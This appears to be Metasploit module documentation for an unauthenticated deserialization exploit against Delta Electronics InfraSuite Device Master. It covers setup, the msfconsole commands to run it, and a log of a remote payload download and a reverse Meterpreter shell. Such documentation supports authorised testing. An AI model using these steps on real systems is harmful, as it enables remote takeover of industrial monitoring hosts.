 ## Vulnerable Application

Delta Electronics InfraSuite Device Master versions below `v1.0.5` are vulnerable to
an unauthenticated .NET deserialization vulnerability. The `Device-Gateway-Status` process
listens on port `10100` and communicates over UDP. Its `ParseUDPPacket()` method reads user-controlled
data and passes what it determines to be the packet header to the `BinaryFormatter.Deserialize()` method,
resulting in code execution as the user running the `Device-Gateway-Status` process.

### Installation Instructions

1. Unzip and run the installer
2. Install all of the pre-requisites (Stack Builder is not needed) and reboot
3. Click `next` and ensure the three features, `Device-Monitor`, `Device-DataCollect`, and `Device-Gateway` are selected to install
4. The password on the next screen should say `Ems3000!`, but it is not needed for the exploit
5. Click `next`, then `Install`
6. Click `Finish`, then wait for the processing of files to finish
7. Once the previous step is done, ensure `Yes, I want to restart my computer now` is checked and click finish

## Verification Steps

1. Install the application
2. Start msfconsole
3. Do: `use exploit/windows/misc/delta_electronics_infrasuite_deserialization`
4. Do: `set RHOST <IP>`
5. Do: `set INFRASUITE_PORT <PORT_NO>`
6. Do: `run`
7. You should get a meterpreter session.

## Options

### INFRASUITE_PORT

This is the option on which the web-based InfraSuite Device Manager listens. It is
only used to check the version of the software to determine exploitability. 80 by default

## Scenarios

### InfraSuite Device Master v01.00.00d on Windows 10 x64

```
msf6 exploit(windows/misc/delta_electronics_infrasuite_deserialization) > run

[*] Started reverse TCP handler on 192.168.140.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Requesting the login page to determine if target is Infrasuite Device Master...
[*] Target is InfraSuite Device Master. Now attempting to determine version.
[+] The target appears to be vulnerable.
[*] Using URL: http://192.168.140.1:8080/xkRhewOXntAgYs
[*] Command Stager progress - 100.00% done (153/153 bytes)
[*] Client 192.168.140.187 (Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) WindowsPowerShell/5.1.19041.2673) requested /xkRhewOXntAgYs
[*] Sending payload to 192.168.140.187 (Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) WindowsPowerShell/5.1.19041.2673)
[*] Sending stage (175686 bytes) to 192.168.140.187
[*] Meterpreter session 1 opened (192.168.140.1:4444 -> 192.168.140.187:50409) at 2023-06-05 17:09:29 -0500
[*] Server stopped.

meterpreter > getuid
Server username: DESKTOP-R6RCNHH\space
meterpreter > sysinfo
Computer        : DESKTOP-R6RCNHH
OS              : Windows 10 (10.0 Build 19045).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 5
Meterpreter     : x86/windows
meterpreter >
```
